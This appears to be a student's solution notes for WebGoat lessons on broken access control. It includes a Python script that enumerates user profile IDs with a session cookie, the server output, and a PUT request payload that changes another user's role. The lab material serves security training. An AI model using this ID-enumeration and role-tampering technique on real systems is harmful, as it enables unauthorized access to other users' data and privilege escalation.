<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A5 - Broken Access Control](#a5---broken-access-control)
  - [Insecure Direct Object Reference](#insecure-direct-object-reference)
  - [Missing Function Level Access Control](#missing-function-level-access-control)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A5 - Broken Access Control

## Insecure Direct Object Reference

### 1. Direct Object References vs Insecure Direct Object References

### 2. Authenticate First, Abuse Authorization Later

### 3. Observing Differences & Behaviors

Serverìs response:

```
{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```

The `userId` and `role` attributes are in the server's response, but don't show in the page.

### 4. Guessing & Predicting Patterns

`WebGoat/IDOR/profile/2342384`

### 5. Playing with the Patterns

- View Another Profile

Attack script:

```python
#!/usr/bin/python3

import requests
import json

url = "http://localhost:8080/WebGoat/IDOR/profile/{}"
headers = {"Cookie":"JSESSIONID=9gV_fSFyQdWk55sOKlSqZHunQZ0myi165J77wlOT" }

start = 2342384

for i in range(1000):
	response = requests.get(
		url.format(start + i), 
		headers=headers)

	if response.status_code != 500:
		print(response.text)
```

Output:

```
{
  "lessonCompleted" : false,
  "feedback" : "Try again. You need to use the same method\\/URL you used to access your own profile via direct object reference.",
  "output" : null,
  "assignment" : "IDORViewOtherProfile",
  "attemptWasMade" : true
}
{
  "lessonCompleted" : true,
  "feedback" : "Well done, you found someone else's profile",
  "output" : "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}",
  "assignment" : "IDORViewOtherProfile",
  "attemptWasMade" : true
}
```

- Edit Another Profile

Request:

- Method and URL:

```
PUT http://localhost:8080/WebGoat/IDOR/profile/2342388 HTTP/1.1
```

- Payload:

```
{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}
```

### 6. Secure Object References

Enforce both:

- vertical access control: enfoced by roles definition
- horizontal access control: users can access data of other users with the same role

## Missing Function Level Access Control

### 1. Missing Function Level Access Control

### 2. Relying on Obscurity

Items not visible in menu: `Users` (`/users`) and `Config` (`/config`).

### 3. Just Try It

\# FIXME